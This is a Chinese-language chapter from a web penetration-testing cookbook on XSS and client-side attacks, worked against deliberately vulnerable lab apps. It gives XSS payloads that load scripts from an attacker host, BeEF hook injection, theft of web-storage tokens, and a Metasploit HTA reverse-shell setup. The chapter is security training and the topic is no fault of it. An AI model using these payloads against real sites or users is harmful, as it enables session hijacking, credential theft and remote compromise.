



# 第五章：跨站脚本和客户端攻击

本章内容包括：

+   使用浏览器绕过客户端控制

+   识别跨站脚本（XSS）漏洞

+   通过 XSS 获取会话 Cookies

+   利用 DOM XSS

+   使用 XSS 和 BeEF 进行浏览器中人攻击

+   从 Web 存储中提取信息

+   使用 ZAP 测试 WebSockets

+   使用 XSS 和 Metasploit 获取远程 Shell

# 介绍

Web 应用与其他类型应用的主要区别在于，Web 应用不在客户端安装软件或用户界面，因此浏览器在用户设备上充当客户端角色。

本章将重点讲解利用浏览器作为代码解释器的漏洞，浏览器读取 HTML 和脚本代码并显示结果给用户，同时允许用户通过 HTTP 请求与服务器交互，最近的 WebSockets（HTML5 的最新版本中的一种补充）也被广泛使用。

# 使用浏览器绕过客户端控制

Web 应用的处理既发生在服务器端，也发生在客户端。后者通常用于处理与信息展示相关的内容；此外，输入验证和某些授权任务是在客户端执行的。当这些验证和授权检查没有通过类似的服务器端过程来加强时，可能会面临安全问题，因为客户端信息和处理容易被用户操控。

在这个示例中，我们将看到几个情况，恶意用户可以利用那些没有服务器端支持的客户端控制。

# 如何操作...

我们来看一个使用 WebGoat 的实际示例：

1.  登录 WebGoat 并进入访问控制漏洞 | LAB 基于角色的访问控制 | 第一阶段：绕过业务层访问控制：


1.  使用 Tomcat 的凭证（`Tom`:`tom`）登录并启用 Firefox 的开发者工具（*F12*）。

1.  让我们检查员工列表。我们可以看到唯一的元素`Tom Cat (employee)`是一个值为`105`的 HTML 选项标签：


1.  打开开发者工具中的 Network 选项卡并点击 ViewProfile。注意请求中有一个名为`employee_id`的参数，它的值是`105`：


1.  点击 ListStaff 返回列表。

1.  切换到开发者工具中的 Inspector 选项卡。

1.  双击`option`标签的值（`105`）并将其更改为`101`。我们想看看通过修改这个参数是否可以查看其他用户的信息。

1.  再次点击 ViewProfile：


1.  现在，WebGoat 中的任务是使用 Tom 的账户删除 Tom 的个人资料，让我们来尝试一下。点击 ListStaff 返回列表。

1.  现在，检查 ViewProfile 按钮。

1.  请注意，它的名称是`action`，值是 ViewProfile；将值更改为 DeleteProfile：


1.  按钮中的文本将会改变。点击 DeleteProfile，当前阶段将完成：


# 它是如何工作的...

在这个案例中，我们首先注意到，员工 ID 作为值提供给客户端，并作为请求参数发送到服务器，因此我们尝试并更改了`employee_id`参数，以获取我们不应访问的员工信息。

之后，我们通过检查检查器，注意到所有按钮的名称都是`action`，它们的值是按下时执行的操作。通过检查开发者工具的网络标签中的请求，可以确认这一点。因此，如果我们有像`SearchStaff`、`ViewProfile`和`ListStaff`这样的操作，也许`DeleteProfile`就是挑战所要求的操作。当我们更改了`ViewProfile`按钮的值并点击它时，我们验证了我们的假设是正确的，凭借修改 HTML 元素值的能力，我们可以删除任何用户（或执行任何操作）——这正是任何 Web 浏览器提供的工具所能做到的。

# 另见

Mutillidae II，也包含在 OWASP BWA 中，有一个非常有趣的挑战，旨在绕过客户端控制。推荐读者尝试这个挑战。

# 识别跨站脚本攻击漏洞

**跨站脚本攻击**（**XSS**）是 Web 应用程序中最常见的漏洞之一；事实上，它被认为是 2013 年 OWASP 前十大漏洞中的第三大漏洞（[`www.owasp.org/index.php/Top_10_2013-Top_10`](https://www.owasp.org/index.php/Top_10_2013-Top_10)）。

在这个案例中，我们将看到一些识别 Web 应用程序中 XSS 漏洞的关键点。

# 如何操作...

让我们来看一下以下步骤：

1.  我们将使用**Damn Vulnerable Web Application**（**DVWA**）进行这个案例。使用默认的管理员凭据（用户名和密码均为`admin`）登录，然后进入 XSS 反射部分。

1.  测试漏洞的第一步是观察应用程序的正常响应。在文本框中输入一个名称并点击提交。我们将使用`Bob`：


1.  应用程序使用我们提供的名称来形成一个短语。如果我们引入一些特殊字符或数字，而不是有效的名称，会发生什么呢？我们来试试`*<*'this is the 1st test'*>*`：


1.  现在，我们看到任何我们输入到文本框中的内容都会反映在响应中；也就是说，它正在成为响应中的 HTML 页面的一部分。让我们查看页面的源代码，分析它是如何展示信息的：


源代码显示，输出中的特殊字符没有进行编码处理，我们发送的特殊字符直接反射回页面，且没有任何预处理。`*< *`和`*>*`符号是用来定义 HTML 标签的，因此也许我们可以输入一些脚本代码。

1.  尝试输入一个名字，后面跟上非常简单的脚本代码，`Bob<script>alert('XSS')</script>`：


页面执行了脚本，导致弹出了警告框，所以这个页面存在 XSS 漏洞。

1.  现在，查看源代码，看看我们的输入发生了什么：


看起来我们的输入被处理成了 HTML 代码的一部分；浏览器解释了`<script>`标签，并执行了其中的代码，显示了我们设置的警告框。

# 它是如何工作的...

XSS 漏洞发生在输入验证不严格或没有输入验证时，且输出没有适当编码时，无论是在服务器端还是客户端。这意味着应用程序允许我们输入在 HTML 代码中也能使用的字符，并且在发送到页面时没有执行任何编码处理（例如使用 HTML 转义码`&lt;`和`&gt;`），以防止它们被当作 HTML 或 JavaScript 源代码解析。

攻击者利用这些漏洞改变页面在客户端的行为，欺骗用户在不知情的情况下执行任务，或窃取私人信息。

为了发现 XSS 漏洞，我们跟踪了一些线索：

+   我们在框中输入的文本被准确地用来形成一个显示在页面上的消息；也就是说，这是一个反射点。

+   特殊字符没有被编码或转义

+   源代码显示我们的输入被集成到了一个可以成为 HTML 代码一部分的位置，并且浏览器会将其作为 HTML 代码解析。

# 还有更多...

在这个示例中，我们发现了一个反射型 XSS；这意味着每次我们发送这个请求并且服务器响应时，脚本都会执行。另一种 XSS 类型被称为存储型 XSS。存储型 XSS 可能在输入提交后不立即呈现，但这些输入会被存储在服务器上（可能是数据库中），并在每次用户访问存储的数据时执行。

# 通过 XSS 获取会话 cookie

在前面的示例中，我们进行了一次非常基础的 XSS 利用原型测试。此外，在之前的章节中，我们看到了攻击者如何使用会话 cookie 窃取有效用户的会话。没有`HttpOnly`标志保护的 XSS 漏洞和会话 cookie，可能是对 Web 应用程序安全的致命组合。

在这个示例中，我们将看到攻击者如何利用 XSS 漏洞获取用户的会话 cookie。

# 如何操作...

攻击者需要有一个服务器来接收外泄的数据（在这个例子中是会话 cookie），因此我们将使用一个简单的 Python 模块来设置它。以下是步骤：

1.  要使用 Python 启动一个基本的 HTTP 服务器，请在 Kali Linux 的终端中运行以下命令：


1.  现在登录到 DVWA 并进入 XSS 反射攻击。

1.  在名称文本框中输入以下有效负载：

```
Bob<script>document.write('');</script>
```


1.  现在，返回到正在运行 Python 服务器的终端，查看它如何接收到新的请求：


请注意，URL 参数（在`GET`之后）包含了用户的会话 cookie。

# 它是如何工作的...

在像 XSS 这样的攻击中，需要用户交互才能利用漏洞，攻击者通常无法控制用户何时点击恶意链接或执行导致应用程序受到威胁的操作。在这种情况下，攻击者应该设置一个服务器来接收受害者发送的信息。

在这个示例中，我们使用了 Python 提供的`SimpleHTTPServer`模块，但更复杂的攻击显然需要更复杂的服务器。

之后，进入 DVWA 并在名称文本框中输入有效负载，模拟用户点击攻击者发送的链接`http://192.168.56.11/dvwa/vulnerabilities/xss_r/?name=Bob<script>document.write('');</script>`。一旦用户的浏览器加载页面并将有效负载解析为 JavaScript 代码，它将尝试访问存储在攻击者服务器上的图片（`http://192.168.56.10:88`，即我们的 Kali 虚拟机），其中 cookie 的值作为文件名。攻击者的服务器将注册此请求并返回 404 Not Found 错误；然后，攻击者可以获取记录的会话 cookie，并利用它劫持用户的会话。

# 另见

在这个示例中，我们使用了`<script>`标签将 JavaScript 代码块注入到页面中；然而，这并不是我们唯一可以使用的 HTML 标签，特别是在 HTML5 的新增标签中，例如`<video>`和`<audio>`。让我们看看一些其他的有效负载，看看如何利用 XSS 漏洞：

+   在带有`src/source`参数的标签（如``、`<audio>`和`<video>`）上生成错误事件：

```
')">
```

或者，使用以下方法：

```
<audio><source onerror="javascript:alert('XSS')">
```

或者，这也是一种方法：

```
<video><source onerror="javascript:alert('XSS')">
```

+   注入一个加载外部 JavaScript 文件的`<script>`标签：

```
<script src="http://192.168.56.10:88/malicious.js">
```

+   如果注入的文本作为 HTML 标签中的值，并被引号（`"`）包围，例如`<input value="injectable_text">`，我们可以关闭引号并向代码中添加事件。例如，将`injectable_text`替换为以下代码。注意，最后一个引号没有关闭，因此我们可以使用 HTML 代码中已存在的那个引号：

```
" onmouseover="javascript:alert('XSS')
```

+   注入一个链接或其他带有`href`属性的标签，使其在被点击时执行代码：

```
<a href="javascript:alert('XSS')">Click here</a>
```

有许多种标签、编码和指令的变种可以用来利用 XSS 漏洞。更多的参考资料，请查看 OWASP XSS 过滤器绕过备忘单：[`www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)。

# 利用 DOM XSS

也称为客户端 XSS，DOM XSS 之所以这样命名，是因为有效载荷由浏览器的 DOM 接收和处理，这意味着注入的代码永远不会到达服务器，任何服务器端的验证或编码都无法防御这种攻击。

在这个案例中，我们将分析如何在 Web 应用程序中检测和利用这个漏洞。

# 如何执行……

以下是检测和利用此漏洞的步骤：

1.  在易受攻击的虚拟机`vm_1`中，进入 Mutillidae II | Top 10 2013 | XSS | DOM | HTML5 本地存储。

1.  这个练习展示了一个表单，它将信息存储在浏览器的本地存储和会话存储中。在网络选项卡中启用开发者工具。

1.  尝试添加一些数据，注意到没有网络通信，并且绿色进度条显示给定键的值：


1.  如果我们检查“添加新项目”按钮，我们会看到它在点击时调用一个函数，`addItemToStorage`：


1.  现在，转到调试器选项卡，查找`addItemToStorage`函数；我们在`index.php`的第 1064 行找到了它：


带有数字 1 的箭头表示存在某些输入验证，但它依赖于一个名为`gUseJavaScriptValidation`的变量的值。如果我们在代码中查找这个变量，会发现它最初被声明为`FALSE`（第 1027 行），而且似乎没有地方修改它的值，所以也许这个条件永远不会为真。我们跟踪代码流程，发现没有其他验证或修改存储键值的变量。而在**2**，第 1093 行，这个值作为参数传递给`setMessage`函数，该函数在第 1060 行**3**通过使用现有元素的`innerHTML`属性将消息添加到页面中。

1.  所以，尝试设置一个包含 HTML 代码的键值。添加一个新的条目，使用以下作为键：`Cookbook test <H1>3</H1>`


1.  如果 HTML 代码被浏览器解析，那么一个 JavaScript 块也很可能被解析。添加一个新的条目，使用以下作为键：`Cookbook test `


# 它是如何工作的……

在本示例中，我们首先分析了应用程序的行为，注意到它没有连接到服务器来向页面添加信息，并且它反射了用户提供的一个值。随后，我们分析了将数据添加到浏览器内部存储的脚本代码，发现这些数据可能没有经过正确的验证，并通过 `innerHTML` 属性返回给用户，至少对于键值来说，这意味着这些数据被当作 HTML 代码处理，而不是文本。

为了尝试这个验证不足的问题，我们首先插入了一些带有 HTML 头部标签的文本，并让浏览器解释了这些代码。我们的最后一步是尝试一个 XSS 漏洞概念验证，并成功执行了。

# 浏览器劫持攻击与 XSS 和 BeEF 的结合

BeEF（浏览器利用框架）是一个专注于客户端攻击向量的工具，特别是针对网页浏览器的攻击。

在本示例中，我们将利用 XSS 漏洞并使用 BeEF 控制客户端浏览器。

# 准备工作

在我们开始之前，需要确保已经启动了 BeEF 服务，并且能够访问 `http://127.0.0.1:3000/ui/panel`（登录凭证为 `beef`/`beef`）。

1.  Kali Linux 中的默认 BeEF 服务无法正常工作，因此我们不能仅仅运行 `beef-xss` 来启动 BeEF。相反，我们需要从安装目录中运行它，如下所示：

```
cd /usr/share/beef-xss/
 ./beef
```


1.  现在，浏览到 `http://127.0.0.1:3000/ui/panel`，并使用 `beef` 作为用户名和密码。如果成功，我们就可以继续。

# 如何操作...

BeEF 需要客户端浏览器调用 `hook.js` 文件，这是一个将浏览器钩住并连接到 BeEF 服务器的脚本，我们将使用一个易受 XSS 攻击的应用程序让用户调用此脚本：

1.  假设你是受害者，你收到了一封包含链接 `http://192.168.56.11/bodgeit/search.jsp?q=<script src="http://192.168.56.10:3000/hook.js"></script>` 的邮件，并且点击了该链接。

1.  现在，在 BeEF 面板中，攻击者将看到一个新的在线浏览器：


1.  如果我们查看浏览器中的日志标签页，可能会看到 BeEF 正在存储用户在浏览器窗口中执行的操作信息，例如输入和点击，如下所示：


1.  当浏览器被劫持后，攻击者做的最好的事情就是生成一些持久化，至少在用户浏览被攻陷的域时保持有效。前往攻击者浏览器中的 Commands 标签页，然后在模块树中选择 Persistence | Man-In-The-Browser，接着点击 Execute 执行。

1.  模块执行后，选择相关的命令并查看模块结果历史中的结果，如下所示：


1.  攻击者还可以使用 BeEF 在受害者的浏览器中执行命令；例如，在模块树中进入浏览器 | 获取 Cookie，点击执行以获取用户的 Cookie：


# 它是如何工作的…

在这个配方中，我们使用了 `script` 标签的 `src` 属性来调用一个外部的 JavaScript 文件；在这个例子中，是我们 BeEF 服务器的钩子。

这个 `hook.js` 文件与服务器通信，执行命令并返回响应，以便攻击者能够查看；它不会在客户端浏览器中输出任何内容，因此受害者通常不会知道他们的浏览器已经被入侵。

在让受害者执行我们的钩子脚本后，我们使用了持久性模块“浏览器中间人”（Man-in-the-Browser），使浏览器每次用户点击指向相同域名的链接时，都会执行一个 AJAX 请求，从而保持钩子的执行并加载新页面。

我们还发现，BeEF 的日志记录了用户在页面上执行的每一个操作，并通过这些记录我们能够获取用户名和密码。还可以远程获取会话 Cookie，这可能使攻击者劫持受害者的会话。

模块左侧的彩色圆圈表示模块的可用性和可见性：绿色表示该模块对受害者浏览器有效，且对用户不可见，橙色表示它会有效，但用户会注意到它或必须与之交互，灰色表示该浏览器未经过测试，红色表示该模块无法在被钩取的浏览器上运行。

# 还有更多…

BeEF 具有非常强大的功能，从确定受害者使用的浏览器类型，到利用已知漏洞，甚至完全控制客户端系统。以下是一些最有趣的功能：

+   **社会工程学—漂亮的盗窃**：这是一个社会工程学工具，允许我们模拟一个登录弹窗，外观类似于常见的服务，如 Facebook、LinkedIn、YouTube 等。

+   **浏览器—网络摄像头和浏览器—网络摄像头 HTML5**：看似显而易见，这两个模块能够利用宽松的配置来激活受害者的网络摄像头。第一个使用隐藏的 Flash 嵌入，第二个使用 HTML5。

+   **漏洞利用文件夹**：该文件夹包含了针对特定软件和情况的漏洞利用集合；其中一些利用了服务器漏洞，另一些则是针对客户端浏览器的。

+   **浏览器—钩取域名/获取存储的凭证**：该模块尝试提取受感染域名的用户名和密码，这些凭证存储在浏览器中。

+   **用作代理**：如果我们右击一个钩取的浏览器，我们可以选择将其作为代理使用，这会使客户端的浏览器变成一个 Web 代理；这可能让我们有机会探索受害者的内部网络。

BeEF 中有许多其他对渗透测试员有用的攻击和模块；如果你想了解更多，可以查看[`github.com/beefproject/beef/wiki`](https://github.com/beefproject/beef/wiki)上的官方 wiki。

# 从网页存储中提取信息

在 HTML5 之前，Web 应用程序只能通过 Cookies 将信息持久存储或在用户计算机上以会话为基础进行存储。在 HTML5 中，新增了名为**web storage**的存储选项，包括本地存储和会话存储。这些选项允许应用程序使用 JavaScript 在客户端（浏览器）存储和检索信息，且这些信息会一直保留，直到显式删除（对于本地存储而言），或者直到保存该信息的标签页或窗口关闭（对于会话存储而言）。

在这个案例中，我们将利用 XSS 漏洞从浏览器的网页存储中提取信息，展示如果一个应用存在漏洞，攻击者可以轻松地窃取这些信息。

# 如何操作...

我们将再次使用 Mutillidae II 及其 HTML5 网页存储练习来完成这个案例。以下是步骤：

1.  在 Kali 虚拟机中，访问 Mutillidae II（`http://192.168.56.11/mutillidae`），在菜单中选择 HTML5 | HTML 5 Web Storage | HTML 5 Web Storage。

1.  打开开发者工具并转到存储标签页。然后，进入`Local Storage`并选择服务器地址（`192.168.56.11`）：


在这里，我们可以看到本地存储中有三个值。

1.  现在，切换到`Session Storage`并选择服务器地址：


在临时或每会话存储中，我们看到四个值，其中一个名为`Secure.AuthenticationToken`。

1.  我们之前提到过，`Local Storage`是按域名访问的，这意味着任何在同一域名下运行的应用程序都可以读取和操作，例如我们在*步骤 2*中看到的`MessageOfTheDay`条目。现在我们尝试利用另一个应用程序中的漏洞来访问这些数据。在同一浏览器中，打开一个新标签页并访问 BodgeIt（`http://192.168.56.11/bodgeit`）。

    1.  我们知道 BodgeIt 的搜索功能存在 XSS 漏洞，因此在搜索框中输入以下有效载荷并执行：

```
<script>alert(window.localStorage.MessageOfTheDay);</script>
```


1.  现在，尝试在`Session Storage`中执行相同的操作：

```
<script>alert(window.sessionStorage.getItem("Secure.AuthenticationToken"));</script>
```

1.  由于我们无法从不同的窗口访问`Session Storage`，请返回到 Mutillidae II 标签页并转到 Owasp 2013 | XSS | Reflected First Order | DNS 查找。

1.  在 Hostname/IP 字段中，输入前面的有效载荷并点击查找 DNS：



# 工作原理...

在这个案例中，我们演示了如何使用浏览器的开发者工具查看和编辑浏览器存储的内容。我们验证了`Local Storage`和`Session Storage`之间的访问性差异，以及 XSS 漏洞如何将所有存储的信息暴露给攻击者。

首先，我们从一个与存储添加者不同的应用中访问 `Local Storage`，但它位于相同的域中。为此，我们使用了 `window.localStorage.MessageOfTheDay`，将键值作为对象名称，并直接引用它作为 `Local Storage` 的成员。对于 `Session Storage`，我们需要转到创建存储的窗口，并在那里利用一个漏洞；在这里，我们使用了一个不同的指令来获取我们想要的值：`window.sessionStorage.getItem("Secure.AuthenticationToken"）。这两种形式（将键作为类的成员和使用 `getItem`）对于两种存储类型都是有效的。在 session 中我们使用 `getItem`，因为键包含一个句点（`.`），这会被 JavaScript 解释器处理为对象/属性分隔符，所以我们需要使用 `getItem` 将其用冒号括起来。

# 还有更多...

如果一个应用使用 web 存储来保存关于用户的敏感信息，XSS 不应该是唯一的安全隐患。如果攻击者能够访问用户的计算机，那么攻击者就可以直接访问存储 `Local Storage` 的文件，因为浏览器将这些信息以明文形式保存在本地数据库文件中。具体这些文件在哪些浏览器和操作系统中存储，以及如何读取它们，留给读者自行探索。

# 使用 ZAP 测试 WebSockets

由于 HTTP 是一种无状态协议，它将每个请求视为独立的，并与前一个和下一个请求无关，这也是为什么应用需要实现诸如会话 cookies 这样的机制来管理单个用户在一个会话中的操作。为了克服这一局限性，HTML5 引入了 WebSockets。WebSockets 提供了一个持久的、双向的通信通道，使客户端和服务器可以通过 HTTP 协议进行通信。

在本教程中，我们将展示如何使用 OWASP ZAP 监控、拦截并修改 WebSockets 通信，就像我们在渗透测试中处理普通请求一样。

# 准备工作

OWASP BWA 目前没有包含一个使用 WebSockets 的应用，所以我们需要使用 **Damn Vulnerable Web Sockets** (**DVWS**) （[`www.owasp.org/index.php/OWASP_Damn_Vulnerable_Web_Sockets_(DVWS)`](https://www.owasp.org/index.php/OWASP_Damn_Vulnerable_Web_Sockets_(DVWS))），这是 OWASP 提供的另一个工具，用于本教程。

DVWS 是一个基于 PHP 的开源应用；你可以从其 GitHub 仓库下载到 Kali 虚拟机中：[`github.com/interference-security/DVWS/`](https://github.com/interference-security/DVWS/)。

在理想的条件下，我们只需要下载应用，将其复制到 Apache 根目录，并启动服务即可运行，但不幸的是，这在 Kali Linux 中并非如此。

首先，你需要使用 `apt install php-mysqli` 安装 `php-mysqli` 包。注意它适用于哪个 PHP 版本；在我们这里是 7.2 版本。检查 Apache 配置文件中的 PHP 版本，并相应地调整。确保 PHP 模块的正确版本存在于 `/etc/apache2/mods-enabled/` 中；如果没有，应该从 `/etc/apache2/mods-available/` 中复制正确的版本，并删除不必要的模块：


另外，检查 `php.ini`（`/etc/php/<php_version>/apache2/php.ini`）中是否启用了 MySQL 模块。查找 `Dynamic Extensions` 部分，并启用（去掉前面的 `;`）`extension=mysqli` 行。

接下来，配置数据库。首先，从终端启动 MySQL 服务（`service mysql start`），然后启动 MySQL 客户端（`mysql`）。进入 MySQL 提示符后，使用 `create database dvws_db;` 创建 DVWS 数据库，并退出 MySQL。当数据库创建完成后，我们需要创建其表结构。DVWS 提供了一个脚本来完成此操作，所以在终端中执行以下命令：`mysql dvws_db < /var/www/html/DVWS/includes/dvws_db.sql`（假设 `/var/www/html/` 是 Apache 的文档根目录）：


由于 DVWS 使用了预定义的主机名，我们需要为该主机名设置一个本地地址解析，这个地址就是我们将用于测试的地址。使用你喜欢的文本编辑器打开 `/etc/hosts` 文件，并在其中添加 `127.0.0.1 dvws.local` 这一行。

现在，我们可以通过 `service apache2 start` 启动 Apache 服务，并浏览到 `http://dvws.local/DVWS/`。按照页面上的指示操作，包括启动 WebSockets 监听器（`php ws-socket.php`），并运行 `setup` 脚本来完成数据库配置（`http://dvws.local/DVWS/setup.php`）：


现在，我们可以继续进行。

# 如何操作…

我们为本次练习选择了 ZAP，因为它可以监视、拦截并重放 WebSockets 消息。Burp Suite 也能监视 WebSockets 通信，但它没有拦截、修改和重放消息的能力：

1.  配置你的浏览器使用 ZAP 作为代理，在 ZAP 中，通过点击底部面板中的加号图标，启用 WebSockets 标签页。



1.  现在，在浏览器中访问 `http://dvws.local/DVWS/` 并从菜单中选择 Stored XSS：



1.  输入一些评论并切换到 ZAP。在 History 标签页中，查找对 `http://dvws.local:8080/post-comments` 的请求；这是启动 WebSockets 会话的握手请求：


启动 WebSockets 通信的请求包含 Sec-WebSocket-Key 头，并跟随一个 base64 编码的值。这个密钥不是一种身份验证机制，它仅用于确保服务器不会接受非 WebSockets 客户端的连接：


服务器的响应是一个 101 Switching Protocols 代码，其中包含一个 `Sec-WebSocket-Accept` 头，其功能类似于客户端使用的密钥。

1.  在 ZAP 的 WebSockets 标签中，你可以看到多个通信通道，也就是多个已建立的连接，所有消息都有方向（输入或输出）、一个 opcode 和一个 payload，即要传递的信息：


1.  要拦截 WebSocket，通过点击 WebSockets 标签中的断点图标来添加一个断点。选择需要匹配以进行拦截的 Opcode、Channel 和 Payload Pattern：


1.  当断点被触发时，消息会显示在上方面板，就像 ZAP 中的其他断点一样，但在这里我们可以更改内容并重新发送或丢弃消息：


1.  ZAP 还具有重播/重新发送现有消息的功能；右键点击 WebSockets 标签中的任何一行，选择“打开/重新发送与消息编辑器”选项：


1.  然后，我们将看到 WebSocket 消息编辑器窗口，在这里我们可以更改消息的所有参数，包括其方向和内容，然后再次发送：

 大多数 Web 应用程序固有的攻击和安全弱点，如果应用程序存在漏洞，可以通过 WebSockets 进行复制和利用。

# 它是如何工作的...

WebSockets 通信是通过 JavaScript 中的 `WebSocket` 类由客户端发起的。当 WebSocket 实例被创建时，客户端开始与服务器的握手。当服务器响应握手并且连接建立后，HTTP 连接就会被 WebSocket 连接取代，并成为一个双向二进制协议，这个协议并不一定与 HTTP 兼容。

WebSockets 是纯文本格式，与 HTTP 相似。服务器仍然要求你实现 HTTPS 来提供加密层。如果我们使用 Wireshark 对前面练习中的通信进行嗅探，我们可以轻松读取消息：


注意，客户端发送的消息是被掩盖的（未加密的），而服务器发送的消息是明文的；这是 RFC 6455 协议定义的一部分（[`www.rfc-base.org/txt/rfc-6455.txt`](http://www.rfc-base.org/txt/rfc-6455.txt)）。

# 使用 XSS 和 Metasploit 获取远程 Shell

在前面的章节中，我们已经看到，XSS 可被攻击者用来提取用户信息或在应用程序范围内代表用户执行操作。然而，通过稍微多一点的努力和一些巧妙的社会工程，攻击者可以利用 XSS 说服用户下载并执行恶意软件，从而危害其客户端计算机，并进一步访问本地网络。

在这个示例中，我们将看到更复杂的 XSS 攻击的概念验证，最终导致攻击者能够在受害者计算机上远程执行命令。

# 准备工作

对于这个示例，我们将使用易受攻击的 VM `vm_1` 上的 BodgeIt 作为受攻击的应用程序。为了清晰起见，我们还需要一个单独的客户端虚拟机。在这个示例中，我们将在我们的实验室中添加一个 Windows 7 虚拟机。

如果您尚未配置 Windows 虚拟机，Microsoft 提供了多种设置供开发人员测试其应用程序在其 Internet Explorer 和 Edge 浏览器中使用；您可以从 [`developer.microsoft.com/en-us/microsoft-edge/tools/vms/`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) 下载它们。对于这个示例，我们将使用带有 IE 8 的 Windows 7。随意尝试其他版本；只需在架构和操作系统设置中进行一些微小更改，应该也可以工作。

# 如何做到...

我们将利用 XSS 让浏览器打开并执行我们在 Kali 虚拟机中托管的恶意 HTA 文件：

1.  首先，让我们设置服务器。打开 Metasploit 控制台：

```
msfconsole
```

1.  一旦启动，执行以下命令加载攻击模块和载荷：

```
use exploit/windows/misc/hta_server
set payload windows/shell/reverse_tcp
```

1.  现在，我们的服务器将监听端口 `8888`：

```
set srvport 8888
```

1.  一旦执行了载荷，反向连接的监听器将在端口 `12345` 上：

```
set lport 12345
show options
```


1.  现在，运行攻击并等待客户端连接：

```
run
```


服务器启动时请注意提供的信息。本地 IP 值告诉我们如何访问恶意的 HTA 文件，其文件名是随机字符串并附带扩展名 `.hta`（本例中为 `k0Pjsl1tz2cI3Mm.hta`）。

1.  现在，前往我们的客户端 Windows 虚拟机，并打开 Internet Explorer。

1.  假设攻击者发送了一封包含链接到 `http://192.168.56.11/bodgeit/search.jsp?q=t<iframe src="http://192.168.56.10:8888/k0Pjsl1tz2cI3Mm.hta"></iframe>` 的钓鱼邮件给受害者。在 Internet Explorer 中打开该链接。

1.  如果电子邮件中的假设和 XSS 攻击成功，用户将接受警告并下载并执行文件。在 IE 中接受文件的下载：


1.  当提示运行、保存或取消时，请运行 HTA 文件：

1.  现在，让我们回到攻击方面。转到 Kali 并检查正在运行攻击的终端；它应该已经收到请求并发送了载荷：


1.  注意，Metasploit 表示已经打开了一个新的会话，在我们的情况下编号为 `2`。使用 `sessions` 命令查看详细信息。

1.  要与会话号 `2` 交互，使用 `sessions -i 2`。您将进入一个 Windows 命令提示符；输入一些 Windows 命令来验证它确实是受害者机器：


# 工作原理...

**HTA** 代表 **HTML 应用程序**，这是一种允许在 Web 浏览器内执行代码的格式，但没有浏览器安全模型的约束；它就像运行一个完全受信任的应用程序，类似于浏览器本身或 MS Word。

在这个示例中，我们使用了 Metasploit 来生成恶意 HTA 文件并设置服务器来托管它。我们的恶意文件包含了一个反向 Shell；反向 Shell 是一种程序，当受害者执行它时，会建立与攻击者服务器的连接（这就是它被称为**反向**的原因），与在受害者端打开端口等待传入连接不同。当连接建立后，会创建一个命令执行会话（远程 Shell）。

我们随便选择了端口`8888`作为我们的服务器端口，`12345`作为漏洞监听器的端口。在实际场景中，也许使用端口`80`或`443`并配置适当的 TLS 会更加方便，因为这些是 HTTP 通信的常用端口，且 shell 漏洞利用需要更为复杂的设置，包括加密通信，可能还需要使用其他端口，这样在管理员检测到通信时不会引发警报。SSH 端口`22`是一个不错的选择。

在这个攻击中，XSS 只是用来将恶意文件加载到受害者机器上的方法；它还假设攻击者会创建一个具有说服力的社会工程学场景，以便文件被接受并执行。
